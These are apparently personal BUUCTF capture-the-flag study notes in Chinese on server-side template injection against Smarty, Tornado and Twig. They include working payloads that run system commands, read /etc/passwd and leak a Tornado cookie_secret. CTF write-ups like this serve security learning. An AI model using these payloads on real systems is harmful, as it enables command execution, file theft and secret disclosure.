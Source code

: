 # BUUCTF练习

## 模板注入

### [BJDCTF2020]The mystery of ip

x-forwarder-for处测试{{7*7}}，返回49，存在模板注入，是smarty

{system('cat /flag')}

```
Smarty SSTI利用
{$smarty.version}  //漏洞确认
常规：{php}phpinfo();{/php}
<script language="php">phpinfo();</script>
静态方法读文件：{self::getStreamVariable(“file:///etc/passwd”)}
{if}标签：{if phpinfo()}{/if}
```



### [护网杯 2018]easy_tornado

模板注入

/fllllllllllllag   3bf9f6cf685a6dd8defadabfb41a03a1

/hints.txt
md5(cookie_secret+md5(filename))

```
通过welcome看到render，render是python中的一个渲染函数，也就是一种模板，通过调用的参数不同，生成不同的网页 render配合Tornado使用
报错/error?msg={{1}}，有回馈，模板存在可以访问的快速对象
cookie_secret在Application对象settings属性中，还发现self.application.settings有一个别名
handler指向的处理当前这个页面的RequestHandler对象，
RequestHandler.settings指向self.application.settings，
因此handler.settings指向RequestHandler.application.settings。
使用{{haddle.setting}}
```

75f0c8b5-c718-462a-9d5c-baa966ce8247

最后md5输出修改filehash

### [BJDCTF2020]Cookie is so stable

https://zhuanlan.zhihu.com/p/28823933

进去，提示看cookie，有登录界面，输入什么返回什么，没有xss。

这里想到有可能是模板注入，尝试{{7*7}}和{{7 * '7'}}，都返回49，确认是Twig。复制模板注入payload，抓包修改到cookie，成功返回flag。

![image-20210712165342970](C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210712165342970.png)




[2020强网杯]: https://www.gem-love.com/ctf/2576.html#Funhash
[^PHP花式绕过大全]: https://blog.csdn.net/xiayu729100940/article/details/102619255
[PHP中MD5碰撞Bypass]: https://evi0s.com/2019/02/09/md5-collisions/
[2021陕西省大学生网络安全技能大赛 Web ez_checkin]: https://www.cnblogs.com/seizer/p/14840901.html
[难版pop链]: https://www.136.la/nginx/show-127914.html
[PHP之十六个魔术方法详解]:  https://segmentfault.com/a/1190000007250604